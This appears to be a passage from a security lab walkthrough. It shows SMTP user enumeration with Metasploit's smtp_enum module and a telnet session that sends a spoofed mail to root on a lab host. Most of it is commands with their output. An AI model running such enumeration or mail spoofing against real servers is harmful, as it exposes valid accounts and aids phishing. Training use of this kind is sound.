 [SMTP User Enumeration Utility](https://www.rapid7.com/db/modules/auxiliary/scanner/smtp/smtp_enum/)

SMTP 用户枚举实用程序

SMTP 服务有两个允许用户枚举的内部命令：VRFY（确认有效用户的名称）和 EXPN（显示用户别名和电子邮件列表（邮件列表）的实际地址）。通过执行这些 SMTP 命令可以揭示有效用户列表。

```
msf5 auxiliary(scanner/smtp/smtp_version) > use auxiliary/scanner/smtp/smtp_enum
msf5 auxiliary(scanner/smtp/smtp_enum) > show options

Module options (auxiliary/scanner/smtp/smtp_enum):

   Name       Current Setting                                                Required  Description
   ----       ---------------                                                --------  -----------
   RHOSTS     192.251.178.3                                                  yes       The target address range or CIDR identifier
   RPORT      25                                                             yes       The target port (TCP)
   THREADS    1                                                              yes       The number of concurrent threads
   UNIXONLY   true                                                           yes       Skip Microsoft bannered servers when testing unix users
   USER_FILE  /usr/share/metasploit-framework/data/wordlists/unix_users.txt  yes       The file that contains a list of probable users accounts.

msf5 auxiliary(scanner/smtp/smtp_enum) > run

[*] 192.251.178.3:25      - 192.251.178.3:25 Banner: 220 openmailbox.xyz ESMTP Postfix: Welcome to our mail server.
[+] 192.251.178.3:25      - 192.251.178.3:25 Users found: , admin, administrator, backup, bin, daemon, games, gnats, irc, list, lp, mail, man, news, nobody, postmaster, proxy, sync, sys, uucp, www-data
[*] 192.251.178.3:25      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Connect to SMTP service using telnet and send a fake mail to root user.

[Send an SMTP email using Telnet](https://docs.sendgrid.com/for-developers/sending-email/getting-started-smtp#send-an-smtp-email-using-telnet)

```
root@attackdefense:~# telnet 192.251.178.3 25
Trying 192.251.178.3...
Connected to 192.251.178.3.
Escape character is '^]'.
220 openmailbox.xyz ESMTP Postfix: Welcome to our mail server.
MAIL FROM:openmailbox.xyz
250 2.1.0 Ok
RCPT TO:root
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
"This is a fake mail."
.
250 2.0.0 Ok: queued as 8C66DC2F2D2
quit
221 2.0.0 Bye
Connection closed by foreign host.
```
